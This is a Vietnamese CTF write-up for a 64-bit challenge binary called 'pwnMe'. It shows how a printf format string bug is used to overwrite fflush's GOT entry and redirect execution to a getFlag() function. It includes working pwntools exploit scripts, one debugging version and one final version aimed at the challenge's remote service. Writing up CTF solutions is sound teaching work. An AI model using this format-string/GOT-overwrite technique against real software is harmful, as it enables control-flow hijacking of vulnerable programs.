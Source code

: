 # Writeup pwnMe
![img1](img/1.jpg "test run")

Binary 64 bit, xem thử với IDA

![img2](img/2.jpg "IDA")

Hàm main có lỗi string format ở hàm printf(), ngoài ra có một hàm getFlag() in ra flag:

![img3](img/3.jpg "getFLag function")

Chạy thử với input đầu vào là chuỗi đặc tả để leak info:

![img4](img/4.jpg "run with %p")

Có thể thấy (đếm) được chuỗi nhập vào (buffer s) nằm ở param thứ 44, lưu ý tránh nhầm với buffer format vì  buffer này được tạo với hàm snprintf và parse buffer s vào với format specifier "%s" khiến cho buffer này không chèn được địa chỉ của x64 vào cuối (có nhiều null bytes).

Nắm được thông tin về vị trí trên stack của buffer nhằm chèn địa chỉ cần ghi đè vào trong payload với format specifier "%n". Mục tiêu là ghi đè địa chỉ của hàm fflush trong GOT table nhằm chuyển hướng thực thi chương trình sang hàm getFlag()

Tìm địa chỉ của fflush trong GOT table:

![img5](img/5.jpg "got")

Payload dài 200 ký tự có dạng: ```[pad]%[number]x%[address_param_index]$n[pad][got_fflush_addr]```
Vì input buffer S nằm ở param 44 và đặt địa chỉ fflush trong GOT table cố định ở cuối, mỗi param có độ dài 8 bytes -> địa chỉ nằm ở param thứ 68.

Debug chương trình với gdb, run với breakpoint ở hàm fflush trong main và kiểm tra qua với payload
```py
from pwn import *

p = process('./pwnMe')
#p = remote('8.tcp.ngrok.io', 17159)
gdb.attach(p, gdbscript = "b *main+169")
p.recvline()
payload = 'AAAABBBB'
# more padding needed here
payload += '%68$hn'
payload = payload.ljust(192)
payload += p64(0x600c48).decode('utf-8')

p.sendline(payload)
p.interactive()
```
![img6](img/6.jpg "gdb")

Dùng "%hn" để ghi đè 2 bytes tại địa chỉ chỉ định, tính được cần in thêm 0x7cc-0x2a=1954 bytes với printf, hoàn thiện payload

```py
from pwn import *

#p = process('./pwnMe')
p = remote('8.tcp.ngrok.io', 17159)
#gdb.attach(p, gdbscript = "b *main+169")
p.recvline()
payload = 'AAAABBBB'
payload += '%1954x'
payload += '%68$hn'
payload = payload.ljust(192)
payload += p64(0x600c48).decode('utf-8')

p.sendline(payload)
p.interactive()
```
![img6](img/7.jpg "flag")
## Flag: ```ISPCTF{s1mpl3_fmtstr}```



